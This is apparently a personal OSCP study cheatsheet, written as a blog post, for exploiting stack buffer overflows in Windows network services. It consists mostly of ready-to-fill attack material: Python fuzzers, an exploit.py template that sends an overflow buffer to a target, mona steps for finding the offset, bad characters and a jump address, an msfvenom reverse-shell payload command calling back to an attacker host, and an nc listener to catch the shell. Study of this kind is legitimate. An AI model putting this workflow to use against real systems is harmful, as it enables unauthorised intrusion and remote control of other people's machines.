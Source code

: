 ```yaml
---
layout: post
title: Buffer Overflow personnal cheatsheet
tags: [OSCP, Buffer Overflow, cheatsheet]
description: "Buffer Overflow personnal cheatsheet"

---
```


### Check for windows protections :

- C:\Users\thiba\Desktop\build\Release\winchecksec.exe PATH.exe

### Mona Configuration :

- mona config -set workingfolder c:\mona\%p

### Fuzzing :

- fuzzer.py / fuzzer2.py -> until app crash

```
#fuzzer.py

import socket, time, sys

ip = "IP"
port = PORT
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

```
#fuzzer2.py

import socket

target_ip = "IP"
target_port = PORT

payload = 1000 * "A"

try: 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip,target_port))
    s.send(payload)
    print "[+] " + str(len(payload)) + " Bytes Sent"
except:
    print "[-] Crashed"
```

- /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l SIZE -> SIZE higher than crash offset

### Crash Replication & Controlling EIP :

- modify payload variable by pattern (exploit.py) 

  ```
  #exploit.py
  
  import socket
  
  ip = "IP"
  port = PORT
  
  prefix = ""
  offset = 0
  overflow = "A" * offset
  retn = ""
  padding = ""
  payload = ""
  postfix = ""
  
  buffer = prefix + overflow + retn + padding + payload + postfix
  
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  
  try:
      s.connect((ip, port))
      print("Sending evil buffer...")
      s.send(buffer + "\r\n")
      print("Done!")
  except:
      print("Could not connect.")
  ```

  

- !mona findmsp -distance SIZE -> SIZE same as pattern

- EIP contains normal pattern : ... (offset XXXX) -> get the offset, modify offset variable (exploit.py)

- modify retn variable by "BBBB", remove payload

- Re-run exploit.py -> EIP should be "BBBB"

### Finding Bad Characters :

- !mona bytearray -b "\x00" -> copy results to payload variable
- Re-run exploit.py
- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> copy bad chars
- !mona bytearray -b "\x00 + BAD_CHARS" -> copy results to payload variable
- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> Repeat the badchar comparison until the results status returns
- "Unmodified". This indicates that no more badchars exist.

### Finding a Jump Point :

- !mona jmp -r esp -cpb "BAD_CHARS" -> Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards

### Generate Payload :

- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "BAD_CHARS" -f py -> Copy the generated shell code setting the payload variable

### Prepend NOPs :

- padding = "\x90" * 16

### Start nc listerner :

- nc -lvp 1234


